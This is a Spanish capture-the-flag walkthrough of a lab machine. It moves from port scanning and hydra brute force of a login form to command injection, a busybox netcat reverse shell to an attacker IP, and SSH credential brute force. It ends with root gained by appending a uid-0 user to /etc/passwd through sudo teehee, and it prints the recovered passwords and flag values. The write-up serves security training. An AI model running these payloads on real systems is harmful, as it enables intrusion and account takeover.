Comenzamos realizando un escaneo de puertos abiertos de la máquina víctima:

``sudo nmap 192.168.208.195 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``



Puerto 22 y 80. Todo apunta a SSH y HTTP por ``well known ports``, pero vamos a pasarle estos puertos abiertos a nmap para que haga otro escaneo y nos diga con exactitud qué servicios y versiones están corriendo.

``nmap 192.168.208.195 -sCV -p22,80 -oN target``



``whatweb http://192.168.208.195``



``PasswordField[password]``? Un panel de login? Vamos a echar un vistazo a nivel de navegador.



Confirmamos. Un panel de login.

Si introducimos credenciales incorrectas no hay ningún mensaje de error. Si investigamos un poco en el código fuente, vemos:



Dado este punto, vamos a realizar fuerza bruta de directorios, por si encontrásemos algo de utilidad.

``feroxbuster -u http://192.168.208.195 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x html,txt,js,php,sh -C 400,404,500,503 -o p80``



Nos muestra diferentes rutas, pero no podemos acceder a ellas. Asumo que esto es porque no tengo credenciales válidas y por eso nos redirige al ``index.php``.

Dado que si introducimos credenciales inválidas no aparece código de error ni en web ni en burpsuite, no puede hacerse fuerza bruta al panel de login de forma convencional, dado que el tercer parámetro (error code), no lo conocemos. Por ello, el tercer parámetro lo que hará será redirigir a un endpoint en el que para acceder será necesario tener credenciales válidas (como ``/command.php`` o ``logout.php``). Para ello, se utiliza: ``S=endpoint``

Se prueba con usuario ``admin``. Si no funciona, se probará con ``administrator`` y ``root``. 

``hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.162.195 http-post-form "/login.php:username=^USER^&password=^PASS^:S=command" ``



Introducimos credenciales en web:



Estamos dentro.

Nos movemos a ``command.php``



Si hacemos ``Run`` con ``List Files``:



Tiene pinta de que va a ser ``command injection`` desde burpsuite. Repetimos operación, pero capturando la petición:



Confirmamos que por detrás está haciendo un ``ls -l``.

Si mandamos la petición y vemos la respuesta:



Y si metemos un ``ls -la``, ¿se verán los archivos ocultos?



Confirmamos, los vemos.

¿Y si metemos un ``;id``?

Perfect, funciona.

Pues es el momento de intentar la vieja confiable: ``busybox``.

- Levantamos listener en máquina atacante: ``nc -nvlp 80``

- Modificamos petición: ``ls -l;busybox nc 192.168.45.241 80 -e sh&submit=Run``



- Revisamos listener:



Estamos dentro de la máquina víctima como ``www-data``.

Si echamos un ojo al ``/etc/passwd``, vemos varios usuarios: ``charles``, ``jim`` y ``sam``.



En el directorio personal del usuario ``jim`` podemos ver la flag de user:



local.txt = ``9c2b34fdf05d54faae232203ac61e08f``

# Privesc

En el directorio personal de ``jim``, además de la flag de user, vemos algo muy curioso:



Tenemos SUID y permisos de modificación, curioso. La cosa es que si se modifica el archivo, automáticamente pierde el SUID.

También, en el directorio ``/home/jim/backups`` tenemos:



Es un listado de 252 contraseñas.



Se puede probar este archivo como diccionario de contraseñas para hacer fuerza bruta por SSH.

- Abrimos servidor web con python desde máquina víctima (aunque otra opción sería mover el fichero ``old-passwords.bak`` a un directorio dentro del servidor web y accesible desde el navegador)

``python3 -m http.server 8080``



Realizamos solicitud desde máquina atacante: ``wget http://192.168.208.195:8080/old-passwords.bak``



Generamos diccionario de usuarios con los usuarios que conocemos: ``charles``, ``jim`` y ``sam``.

Lanzamos ``hydra`` con ambos diccionarios:

``hydra -L users.txt -P old-passwords.bak ssh://192.168.208.195``



Nos encuentra credenciales válidas: ``jim``:``jibril04``

Nos conectamos por SSH con las credenciales obtenidas: ``jim``:``jibril04``.

``ssh jim@192.168.208.195``



Genial, hemos pivotado correctamente al usuario ``jim``.

Dentro del directorio personal de ``jim``, antes vimos un archivo al que sólo este usuario tenía acceso: ``mbox``.



A su vez, cuando hemos entrado por SSH, nos decía que teníamos un correo.



Vamos a investigar:



Anda, estupendo. Un correo en el que ``Charles`` dice que va a estar de vacaciones y entrega su contraseña por si sucediese algo. Estupendo.

``Charles``:``^xHhA&hvim0y``

Pues vamos a probar estas credenciales por SSH:

``ssh charles@192.168.208.195``

Hemos pivotado al usuario ``charles``  dentro de la máquina víctima.

Se prueban escaladas básicas, cuando de repente:



Podemos ejecutar ``/usr/bin/teehee`` como root sin introducir su contraseña.

Si hacemos un pequeño reconocimiento del binario:

``/usr/bin/teehee --help``



Muy interesante el parámetro ``-a``: añade, no sobrescribe.

De hecho, vemos que realmente es como el binario ``tee``. Si nos fijamos en las líneas inferiores, nos redirige a su documentación.

Sabiendo que tenemos la posibilidad de meter el input en un archivo y que tenemos privilegios de sudo para hacerlo, se pueden intentar diferentes cositas. Por ejemplo, una cosa que podemos hacer es añadir al ``/etc/passwd`` un usuario que nos permita escalar.

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-tee-privilege-escalation/

Comenzamos generando la estructura:

``openssl passwd -1 -salt "pwn" "password123"``



A este output, le tenemos que añadir la estructura del ``/etc/passwd`` de root, es decir:

``:0:0:root:/root:/bin/bash``

La estructura final queda:

``pwn:$1$pwn$pZ1S90rEEfmfS4ODJKFrA/:0:0:root:/root:/bin/bash``, por lo que:

``echo "pwn:$1$pwn$pZ1S90rEEfmfS4ODJKFrA/:0:0:root:/root:/bin/bash" | sudo /usr/bin/teehee -a /etc/passwd``

Si observamos ahora el ``/etc/passwd``, veremos nuevo usuario (``pwn``) y podemos pivotar a él con la nueva contraseña (``password123``):

``su pwn``



Hemos escalado a ``root`` correctamente.

PD: Esto mismo proceso podría haberse hecho sin settear una contraseña para el usuario que hemos generado: simplemente dejando en blanco ese espacio. Y lo mismo para la referencia a su directorio personal, quedando en el ``/etc/passwd`` de la siguiente forma: 

``pwn::0:0:::/bin/bash``

De esta manera, cuando pivotásemos al usuario que hemos creado, no habría que introducir contraseña.

Podemos recoger la flag de root en su directorio personal: ``/root/proof.txt``



proof.txt : ``cefa38a457f299a2078ea1d56b5231c3``
